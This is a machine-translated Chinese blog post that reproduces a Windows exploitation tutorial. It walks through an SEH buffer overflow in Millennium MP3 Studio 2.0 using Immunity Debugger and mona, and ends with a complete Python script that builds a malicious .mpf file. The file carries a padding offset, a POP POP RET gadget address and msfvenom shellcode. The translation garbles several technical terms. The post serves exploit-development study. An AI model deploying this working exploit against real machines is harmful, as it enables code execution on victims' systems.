# 利用外壳代码有效负载开发 Millennium MP3 Studio 2.0

> 原文：<https://medium.datadriveninvestor.com/exploiting-millennium-mp3-studio-2-0-with-shellcode-payload-82f815bc809b?source=collection_archive---------7----------------------->


(**此博文非原创**。它涵盖了我的经验和我在复制这种利用时遇到的挑战:Fu11Shade 的“Windows 利用途径”序列中的【https://fullpwnops.com/local-seh-overflow/】T2。除非另有说明，引用文字均来自 Fu11Shade 的博文。要配置您的系统来完成本教程:【https://fullpwnops.com/immunity-windbg-mona/】T4

在本教程中，我们将利用当 Millennium MP3 Studio 2.0(安装在此:[https://www.exploit-db.com/exploits/10240](https://www.exploit-db.com/exploits/10240))试图打开带有某些扩展名的文件时发生的溢出。我在 Windows 7 64 位虚拟机上完成了本教程。

[](https://www.datadriveninvestor.com/2020/02/10/why-encryption-is-critical-to-everyday-life/) [## 为什么加密对日常生活至关重要？数据驱动的投资者

### 你几乎每天都要输入密码，这是你生活中最基本的加密方式。然而问题是…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2020/02/10/why-encryption-is-critical-to-everyday-life/) 

基于结构化异常处理程序(SEH)的溢出以许多不同的方式工作。在本教程中，我们将使用一个文本文件注入恶意有效载荷到易受攻击的领域。

什么是“结构化异常处理程序？”相当粗略地说，SEH 是一段设计用来处理运行时可能发生的某些错误的代码。异常处理程序可以处理硬件和软件故障。一些常见的处理程序处理诸如无法释放内存块、内存不足、试图访问受限内存位置等问题。

如果出现异常，并且没有一个处理程序能够解决问题，程序可能会终止或者产生某种意外的输出。

有两种 SEH 机制:

1.  异常处理程序:可以响应或消除异常的块
2.  终止处理程序:无论异常是否导致终止，总是被调用的块

当处理程序识别出异常时，处理程序可以:

1.  无法识别异常并将控制传递给其他处理程序
2.  认识到这个例外，但是忽略它
3.  识别异常并处理它

让我们来看看这个 SEH 漏洞是如何工作的——大部分内容都需要解释:

1.  我们将 Millennium 进程与免疫联系起来，这样我们就可以精确地观察缓冲区溢出和漏洞的影响。
2.  当我们的恶意文件被打开时，应用程序将试图解析数据。
3.  Fu11Shade 告诉我们，当该应用程序的解析程序对带有“.”的文件进行操作时，会出现缓冲区溢出。强积金”扩展。
4.  因此，我们需要创建一个溢出该缓冲区的. mpf 文件。
5.  当出现异常时，控制将跳转到第一个 SEH 处理程序。
6.  缓冲区溢出会将 SEH 处理程序的地址设置为弹出弹出返回序列的地址。
7.  这将使 ESP 在堆栈中下移两次，并将其返回给 EIP。
8.  大概，我们已经覆盖了这个地址，EIP 现在指向一个 JMP 指令，它把执行移到外壳代码的开始。

让我们开始吧:

首先，我们希望将 Immunity 调试器附加到正在运行的 Millennium MP3 Studio 进程:



View of the logs in Immunity

接下来，我们希望生成。我们利用的 mpf 文件。我们可以使用 python 脚本来实现这一点:



This is copied directly from [https://fullpwnops.com/local-seh-overflow/](https://fullpwnops.com/local-seh-overflow/)

在这个脚本中，我们生成一个有效负载，打开一个名为“evil.mpf”的文件，并将有效负载写入 open() (payload_execution)返回的文件对象。

运行脚本后，我们可以看到恶意文件。



现在，让我们尝试从 Millenium Studio MP3 打开 evil.mpf，此时它已附加到 Immunity:



我们可以看到 EAX 和 ECX 寄存器被 A 覆盖。此外，我们可以在 SEH 链中看到一个“损坏条目”:



最后，我们还可以看到 Immunity 日志中的溢出。



既然我们已经确认存在缓冲区溢出漏洞，我们需要计算缓冲区大小，以便生成旨在覆盖 SEH 处理程序的精确外壳代码。

我们可以使用 Metasploit 的模式创建工具来生成一个循环模式，它将帮助您确定数据从哪里开始被覆盖:



**注意:**我在 Windows 虚拟机上安装 Metasploit 框架时遇到了问题(Metasploit 社区不再提供),我选择了使用 Kali Linux 内置的 Metasploit 框架。

现在，我们应该将千年进程附加到豁免权上，并打开我们新的恶意文件:



我们可以看到寄存器被我们的模式覆盖。

现在，让我们运行“findmsp”命令。Findmsp 将“在内存中查找循环模式的所有实例或某些引用”(corelan.be)。如果您注入一个循环模式并使您的应用程序崩溃，您可以运行 findmsp 来获得以下信息(corelan.be):

“””

1.  可以找到循环模式的位置以及该模式有多长。
2.  用 4 字节循环模式覆盖的寄存器以及覆盖寄存器所需的偏移量。
3.  将该点注册到循环模式、偏移量和模式的剩余大小中。
4.  用 4 字节的循环、偏移和大小覆盖 SEH 记录。
5.  指针，转换成循环模式(偏移量+大小)。
6.  堆栈上循环模式的部分、从模式开始的偏移量以及模式的大小。

“””

我们可以看到 SEH 处理程序被覆盖:



为了利用这个“我们需要获得一个流行流行 RET 小工具。”我们可以通过运行“！豁免赛中的蒙娜丽莎。该命令将在程序中搜索所需的序列，该序列将“将执行流返回到结构化异常处理程序”



起初，我不知道 T2 到底是什么，也不知道我们为什么需要它——所以让我们探索一下。

根据 dkalemis.wordpress.com 的说法，漏洞作者经常搜索这个序列，“因为这是他们漏洞的一个重要部分。”显然，“流行流行 RET 是为了创造 SEH 漏洞所需的指令序列。”值得注意的是，弹出值所在的寄存器对于攻击是否成功并不重要。最重要的是 ESP 在地址空间上移两次(8 个字节，在 32 位架构中每个位置是 4 个字节)，并且执行 RET 指令。因此，要么“流行 EAX，流行 EBX，RET，或流行 ECX，流行 ECX，RET，或流行 EDX，流行 EAX，RET，(等等)都可以。”

每次 RET 发生时，“ESP 指向的地址的内容被放入 EIP 并执行”(dkalemis)。因此，攻击者知道 ESP + 8 的地址将被放入 EIP 并执行。

但是为什么 ESP 在栈中下移两次很重要呢？为什么我们不能用外壳代码覆盖 SEH 处理程序指令，因为不管怎样，当异常出现时，控制权都会转移到那里？

因为有安全措施来防止这种情况。

根据 Dkalemis 的说法，SEH 是“一个记录的链表，每个记录对应一个异常处理程序。”记录的第一个字段是指向下一个记录的指针，第二个字段是异常处理程序本身的地址。

SEH 漏洞是基于这样一个事实，即攻击者可以“改变堆栈的一部分，并将值放在那里，从而在出现异常后误导 SEH 处理程序的执行”(dkalemis)。

所以，让我们从头开始看看一个流行的流行的 RET 小工具是如何工作的:

1.  引发缓冲区溢出后，执行跳转到第一个 SEH 处理程序指向的地址。
2.  缓冲区溢出将 SEH 处理程序的地址设置为 POP POP RET 序列的地址。
3.  因此，现在 EIP 将被设置为 ESP + 8 字节的值，这将是外壳代码开头的 jmp 指令。

现在回到教程。

我们最终的 python 脚本，包括 POP POP RET 小工具，将如下所示:

```
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

请注意，我们的有效载荷现在还包含一个 NOP sled。



现在，当我们运行应用程序的最终版本时，我们可以弹出一个计算器。

